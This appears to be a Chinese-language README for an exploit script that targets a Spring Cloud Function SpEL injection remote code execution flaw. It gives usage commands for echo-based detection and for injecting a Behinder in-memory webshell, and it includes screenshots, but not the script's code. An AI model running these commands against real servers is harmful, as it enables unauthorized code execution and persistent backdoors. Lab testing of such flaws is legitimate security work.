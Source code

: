 # -Spring-cloud-function-SpEL-RCE
针对specl注入进行回显和内存马注入exp
# 使用
回显探测

python3 SpringCloudFunction_rce.py -url http://127.0.0.1:8088/

<img width="790" alt="image" src="https://user-images.githubusercontent.com/38367493/165485812-a5e12b13-ce52-4b1b-bd76-17d1910bb602.png">

注入冰蝎

python3 SpringCloudFunction_rce.py -url http://127.0.0.1:8088/ -inject

<img width="773" alt="image" src="https://user-images.githubusercontent.com/38367493/165486095-87938c34-b3b2-43f3-a341-17ef606bd448.png">

<img width="1000" alt="image" src="https://user-images.githubusercontent.com/38367493/165486771-01e3ea5b-dbd6-4e14-9559-fa24483faa59.png">

